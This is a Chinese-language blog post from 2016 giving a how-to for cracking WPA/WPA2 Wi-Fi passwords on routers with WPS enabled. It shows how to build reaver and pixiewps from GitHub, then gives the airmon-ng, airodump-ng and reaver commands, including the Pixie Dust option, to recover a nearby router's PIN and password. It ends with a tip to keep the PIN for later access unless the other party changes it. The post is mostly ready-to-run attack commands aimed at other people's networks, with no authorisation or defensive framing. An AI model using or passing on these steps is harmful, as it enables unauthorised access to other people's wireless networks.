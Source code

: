```yaml
---
layout: post
title:  "reaver破解Wi-Fi密码"
date:   2016-12-31 17:35
categories: jekyll update
tags: [网络,Linux]
issueid: 27
---
```

[reaver最新版主页](https://github.com/t6x/reaver-wps-fork-t6x)  
[pixiewps主页](https://github.com/wiire/pixiewps)  
[mdk3攻击路由器](https://lexuge.github.io/jekyll/update/2016/08/28/%E4%BD%BF%E7%94%A8mdk3+aircrack-ng%E6%94%BB%E5%87%BB%E8%B7%AF%E7%94%B1%E5%99%A8.html)  
借助最新的工具reaver可以破解WPA/WPA2（带有WPS）的路由器  
1. 编译reaver  
```
git clone https://github.com/t6x/reaver-wps-fork-t6x
cd reaver-wps-fork-t6x*/
cd src/
./configure
make
sudo make install
```

2. 编译pixiewps  
```
git clone https://github.com/wiire/pixiewps
cd pixiewps*/
cd src/
make
sudo make install
```
3. 使用reaver  
使用```reaver -h```可显示帮助  
- 使网卡变为监听模式:```sudo airmon-ng start wlp2s0```(具体步骤见mdk3攻击路由器的前几步)  
- 搜索附近路由:```sudo airodump-ng wlp2s0mon```  
接下来就可以使用reaver了  
若要在几秒钟内瞬间得到密码(不保证适应全部路由):```reaver -i wlp2s0mon -b (MAC) -vvv -K 1```  
若要100%得到密码(几个小时以上):```reaver -i wlp2s0mon -b (MAC)```  
Tip:得到密码后一定要记下PIN，这样下次就可以直接获得密码(对方不更改PIN)  
